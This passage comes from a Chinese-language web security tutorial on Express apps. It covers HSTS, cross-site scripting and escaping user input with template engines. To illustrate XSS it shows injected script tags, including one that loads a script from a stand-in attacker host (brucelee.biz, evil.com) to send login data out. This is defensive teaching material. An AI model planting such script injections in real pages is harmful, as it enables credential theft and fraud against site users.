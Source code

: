 現在，HSTS將會被設置到每個請求中。

>**為什麼我不能單獨使用HSTS？** 這個頭部只有在用戶已經是HTTPS的時候才會生效，這就是為什麼你需要`express-enforces-ssl`的原因。

### 防止跨站腳本攻擊

如何控制瀏覽器？ 假設利用跨站腳本(XSS)攻擊是最流行的方法。

假設在銀行主頁，我可以看到一個由我的聯繫方式和名字組成的列表：

![](http://i.imgur.com/DFiUU5x.png)

用戶可以控制他們的名字，Bruce Lee可以進入他的設置頁面，並將他的名字改為這樣：

```
Bruce Lee<script>transferMoney(1000000, "bruce-lee’s-account");</script>
```

聯繫人外觀依然沒有改變，不過現在我的web瀏覽器同樣會執行`<script>`標籤內部的代碼！Bruce Lee同樣可以把`<script src="http://brucelee.biz/hacker.js"></script>`添加到他的名字。這段腳本可以給brucelee.biz發送資料(例如登陸信息)。

防止XSS總的方式就是：永遠不要盲目的相信用戶的輸入。

#### 轉碼用戶輸入

當你獲取到用戶輸入的時候，它們總是可能輸入一些惡意信息。前面例子中，你可以在你的名字中包含`<script>`標籤，從而導致了XSS問題。你可審核或轉碼用戶的輸入，因此，當你將他放置到你HTML的時候，你不會遇到任何意外結果。

取決於用戶的輸入，你將以不同的方式檢查它們。就一般原則來說，你會盡可能的檢查它們，並且總是記住上下文。

如果你在用戶內容中放置了HTML標籤，但你想要保證其中不會定義任何的HTML標籤。例如，你想要這樣一串字符串：

```
Hello, <script src="http://evil.com/hack.js"></script>world.
```

變成這樣子：

```
Hello, &lt;script src="http://evil.com/hack.js"&gt;&lt;/script&gt;world.
```

透過這種方法，`<script>`標籤將會作廢。

這種類型的轉碼(更多的)是由大多數的模板引擎為你處理的。在EJS中，會默認在`<%= myString %>`中使用以及在`<%- userString %>`中不使用。在Pug中，默認進行轉碼設置。除非你確定不想進行審查，否則，只要在你處理用戶字符串的時候就要確保使用安全的版本。

如果你知道用戶應該輸入的是一個URL，你要做的就不只是轉碼了；你需要盡可能從各方面驗證它是URL。你同樣想要在URL上調用內置的`encodeURI`函數從而確保它是安全的。



如果你把一些東西放置到HTML屬性中(例如a連接的href屬性)，你會想要確保用戶不能插入引號。很不幸，並不存在一個可以審查所有用戶輸入的通用解決方案；審查方案是視內容而定。不過你總是應該盡可能地審查用戶輸入。

你同樣可在你每次將它存入資料庫之前進行轉碼。在我們剛剛用過的例子中，我們展示了如何在任何需要展示信息的時候審查它們。但如果你知道用戶應該在他們的個人信息中導入主頁，這同樣有助於你在存入資料庫之前對它進行審查。如果我錄入"hello, world"作為我的主頁，Server應該得到一個錯誤。如果我錄入http://evanhahn.com/作為我的主頁，這應該被允許放入到資料庫中。這樣可以獲得安全收益和UI收益。

#### 利用HTTP頭部緩解XSS問題

有另一種方式用來緩解XSS問題。這個方式十分簡單，使用HTTP頭部實現。我們將使用Helmet。
